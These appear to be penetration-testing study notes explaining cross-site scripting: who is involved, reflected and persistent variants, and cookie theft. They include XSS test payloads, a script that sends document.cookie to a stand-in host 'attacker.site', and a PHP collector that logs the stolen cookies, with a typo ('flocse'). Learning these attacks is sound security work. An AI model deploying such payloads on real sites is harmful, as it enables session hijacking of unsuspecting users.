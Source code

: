     Actors of a XSS attack:

| Vulnerable Website                            | User/Visitor (Victim)                                                                                                                | Penetration Tester                                                                       |
| --------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------- |
| Inputs should always be validated server side | Code executed/rendered by the browser of the visiting users                                                                          | Making their browsers load malicous content                                              |
| Never ever trust user input                   | XSS vulnerabilities have low priority for developers, as it can be really hard for a victim to realize that an attack is in progress | Performing operations on their behalf, like buying a product or changing a password      |
|                                               |                                                                                                                                      | Stealing the session cookies, thus being able to impersonate them on the vulnerable site |

* Reflection Point: When a search parameter is submitted through a form and gets displayed on the output in an XSS attack
* After finding a reflection point, you have to understand if you can inject HTML code and see if it somehow gets to the output of the page
* Test XSS: `<script>alert('XSS')</script>`

## XSS Types

**Reflected**

* When the malicious payload is carried inside the request that browser of the victim sends to the vulnerable website
* When users click on the link , the users trigger the attack
* `http://victim.site/search.php?find=<payload>`
* Called 'reflected' because an input field of the HTTP request sent by the browser gets immediately reflected to the output page
* Google Chrome has a reflected XSS filter built in to avoid this attack, but only trivial ones

**Persistent**

* Occur when the payload is sent to the vulnerable web server and then stored.
* When a web page of the vulnerable website pulls the stored malicious code and puts it within the HTML output, it will deliver the XSS payload
* The malicious code gets delivered each and every time a web browser hits the "injected" web page
* A single attack can exploit multiple web applications
* The most common vector for persistent attacks are HTML forms that submit content to the web server and then display that content back to the users
* Element such as comments, user profiles, and forum posts are potential vector for XSS attacks

**DOM Based**

Cookie Stealing via XSS

* When `HttpOnly` flag is disabled, cookies can be stolen
* `<script>alert(document.cookie)</script>`
* With the following code, you can send cookies content to an attacker-controlled site:

```javascript
<script>
  var i = new Image();
  i.src = "http://attacker.site/log.php?q="+escape(document.cookie);
</script>
```

```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
flocse($fp);
?>
```
